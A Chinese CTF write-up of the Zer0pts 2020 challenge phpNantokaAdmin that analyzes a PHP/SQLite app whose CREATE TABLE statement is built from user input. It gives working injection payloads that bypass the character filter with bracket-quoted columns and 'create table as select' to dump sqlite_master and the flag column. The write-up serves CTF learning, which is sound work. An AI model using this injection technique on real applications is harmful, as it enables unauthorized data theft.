 # \[Zer0pts2020]phpNantokaAdmin

## \[Zer0pts2020]phpNantokaAdmin

## 考点

* sqlite3 select特性
* sqlite3建表语法

## wp

题目功能流程如下

![](<../.gitbook/assets/image (30).png>)

填参数，点下一步，最后的请求是向/?page=create发送 POST请求，请求内容如下

```
table_name=test&columns[0][name]=testa&columns[0][type]=INTEGER
```

然后请求/?page=index，来到插入数据的页面

![](<../.gitbook/assets/image (4).png>)

向/?page=insert发送POST请求，内容如下

```
values[]=1&values[]=2&values[]=3
```

然后请求/?page=index

![](<../.gitbook/assets/image (33).png>)

那么后台的语句可能如下

```sql
CREATE TABLE test(
   dummy1 TEXT,
   dummy2 TEXT,
   testa INTEGER,
);

INSERT INTO test (dummy1,dummy2,testa) 
          VALUES ('1', '2', 3);
```

但是`testa`那个字段输入字母也会成功插入

![](<../.gitbook/assets/image (1).png>)

然后找信息，啥都没找到，直接用BUU给的代码吧

三个文件，config.php定义flag位置，`flag_bf1811da`表的`flag_2a2d04c3`字段

util.php存放自定义函数，index.php实现路由和视图功能

先说自定义的函数，`redirect($path)`调用header函数进行重定向页面，`flash($message, $path = '?page=index')`向session中写入信息，`e($string)`把string使用`htmlspecialchars($string, ENT_QUOTES)`进行转义，只编码双引号和单引号，`is_valid($string)`判断输入是否含有如下字符

```
["#'()*,\/\\`-]
```

然后index.php，全部采用pdo的方式操作数据库

如果session中存在database字段，就返回`flag_bf1811da`表和`flag_2a2d04c3`字段

insert部分就直接使用insert语句插入POST的values数组，delete是直接清空session，新建一个空白的session

看新建表的地方

要输入表名和列名，只有表名被强制转换为字符串，然后是对表名和列名的限制

```php
  $table_name = (string) $_POST['table_name'];
  $columns = $_POST['columns'];
  $filename = bin2hex(random_bytes(16)) . '.db';
  $pdo = new PDO('sqlite:db/' . $filename);
  if (!is_valid($table_name)) {
    flash('Table name contains dangerous characters.');
  }
  if (strlen($table_name) < 4 || 32 < strlen($table_name)) {
    flash('Table name must be 4-32 characters.');
  }
  if (count($columns) <= 0 || 10 < count($columns)) {
    flash('Number of columns is up to 10.');
  }
```

最后是SQL语句的拼接

```php
  $sql = "CREATE TABLE {$table_name} (";
  $sql .= "dummy1 TEXT, dummy2 TEXT";
  for ($i = 0; $i < count($columns); $i++) {
    $column = (string) ($columns[$i]['name'] ?? '');
    $type = (string) ($columns[$i]['type'] ?? '');

    if (!is_valid($column) || !is_valid($type)) {
      flash('Column name or type contains dangerous characters.');
    }
    if (strlen($column) < 1 || 32 < strlen($column) || strlen($type) < 1 || 32 < strlen($type)) {
      flash('Column name and type must be 1-32 characters.');
    }

    $sql .= ', ';
    $sql .= "`$column` $type";
  }
  $sql .= ');';
```

最终SQL执行顺序

```
CREATE TABLE `FLAG_TABLE` (`FLAG_COLUMN` TEXT);
INSERT INTO `FLAG_TABLE` VALUES ("FLAG");
CREATE TABLE {$table_name} (dummy1 TEXT, dummy2 TEXT, `$column` $type);
```

可控点就是table\_name、column和type

payload

```
table_name=aaaa+as+select+[sql][&columns%5B0%5D%5Bname%5D=]from+sqlite_master;&columns%5B0%5D%5Btype%5D=INTEGER
```

相当于`CREATE TABLE aaaa as select [sql] from sqlite_master;`

![](<../.gitbook/assets/image (24).png>)

payload

```
table_name=aaaa+as+select+[flag_2a2d04c3][&columns%5B0%5D%5Bname%5D=]from+flag_bf1811da;&columns%5B0%5D%5Btype%5D=INTEGER
```

相当于`CREATE TABLE aaaa as select [flag_2a2d04c3] from flag_bf1811da;`

![](<../.gitbook/assets/image (11).png>)



## 小结

1. sqlite3在select时，如果列使用`[]`、`""`、` `` `包裹时会自动忽略这些符号之后的列名
2. sqlite3可以使用`create table ... as select ... from ...` 来复制表
